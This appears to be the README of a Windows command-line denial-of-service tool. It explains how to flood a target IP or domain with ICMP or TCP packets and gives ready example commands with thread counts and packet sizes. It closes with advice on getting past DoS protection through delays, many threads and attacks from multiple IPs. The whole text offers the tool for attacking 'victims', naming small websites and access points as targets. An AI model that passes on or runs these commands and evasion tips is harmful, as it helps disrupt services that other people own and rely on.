 # DoS Attacker
A simple cmd DoS Attacker for Windows.

**Please note that most websites have DoS protection. You can use it to attack small websites and access points. Use it at your own risk.**
## Usage:
*"Dos Attacker.exe" target_ip /mode args package_size threads delay*

*target_ip* is the IP address or the domain name of your victim.  
*/mode* is the mode to use: */port* for TCP attack (args is the port) **or** */icmp* for ping attack (args is just nothing).  
*package_size* is the size of the package that will be send to the victim each time. This size is limited according to the socket type: 65467 for */icmp* and 65536 for */port*.  
*threads* is the number of threads that attack the victim.  
*delay* is the time (in milliseconds) that every thread waits between each package.

**Examples:**  
*"DoS Attacker.exe" 10.100.102.1 /icmp 8192 100 0*  

*"DoS Attacker.exe" www.example.com /icmp 65536 100 0*  

*"DoS Attacker.exe" 10.100.102.1 /port 80 8195 1000 0*

*"DoS Attacker.exe" 10.100.102.1 /port http 8195 50 0*

*"DoS Attacker.exe" www.example.com /port http 32 4096 0*

## How it works:
The program connects to the server, using the mode you chose.  
Next, it creates the threads that attack the victim. Those threads attacks the victim as fast as they can.  

If you want to trick a victim that has a DoS protection, you should use a delay and perform a DDoS attack (attack from multiple IPs) and use many threads.  
Your connection speed is also important for your attack success. Slow connection won't affect the victim.
